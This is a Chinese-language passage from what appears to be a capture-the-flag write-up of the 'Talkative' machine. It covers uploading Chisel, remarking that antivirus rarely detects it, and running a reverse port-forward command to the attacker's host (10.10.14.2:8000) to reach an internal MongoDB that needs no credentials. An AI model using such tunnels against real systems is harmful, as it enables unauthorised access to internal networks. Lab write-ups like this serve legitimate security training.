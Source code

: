 工具推荐：  
Chisel可用来搭建内网隧道，类似于常用的frp和nps之类的工具。由于目前使用的人比较少，因此对于有些杀软还不能准确的识别出该工具。chisel可以进行端口转发、反向端口转发以及Socks流量代理，使用go语言编写，支持多个平台使用，是进行内网穿透的一个鲜为人知的好工具。  
Talkative服务器 上没有安装连接到 Mongo 的工具。  
上传Chisel并创建一个隧道。在我的网络服务器上托管它后，我将获取它：

[![](assets/1701678355-ee9a80403e746ace525ee6a1c4c91f5c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130211148-05230cec-8f82-1.png)

从chisel主机上的服务器开始：

[![](assets/1701678355-59268a560c264e906669242f4b70de47.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130211154-08b082cc-8f82-1.png)

./chisel\_1.7.7\_linux\_amd64 client 10.10.14.2:8000 R:27017:172.17.0.2:27017  
将使用端口 8000，因为 Burp 使用默认端口 8080。我还将给出--reverse标志，表示我希望客户端能够打开我主机上的端口。

## 枚举数据库

我将与mongo( apt install mongodb-clients) 连接：  
默认情况下，它将使用 localhost 端口 27017，这是我的 Chisel 监听端口，所以它可以工作。它似乎不需要信用

[![](assets/1701678355-05a6876d8d9dc552a4a77c6861208b19.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231130211205-0f092aac-8f82-1.png)
